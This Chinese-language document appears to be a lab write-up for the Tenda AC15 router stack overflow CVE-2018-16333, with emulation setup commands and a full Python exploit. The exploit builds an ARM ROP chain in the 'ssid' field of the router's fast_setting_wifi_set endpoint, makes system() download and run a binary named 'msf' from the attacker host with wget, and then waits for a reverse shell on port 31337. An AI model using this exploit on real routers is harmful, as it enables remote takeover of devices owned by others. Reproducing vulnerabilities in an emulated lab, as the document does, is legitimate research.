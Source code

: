 # Tenda AC15 栈溢出漏洞（CVE-2018-16333）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += b'chmod 777 /msf\n'
cmd += b'/msf'

assert(len(cmd) < 255)

libc_base = 0x76cee000

system = libc_base + 0x5A270
readable_addr = libc_base + 0x64144
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload += p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/fast_setting_wifi_set"
cookie = {"Cookie": "password=12345"}
data = {"ssid": payload}

def attack():
    try:
        requests.post(url, cookies=cookie, data=data)
        requests.post(url, cookies=cookie, data=data)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- <https://www.anquanke.com/post/id/231445>
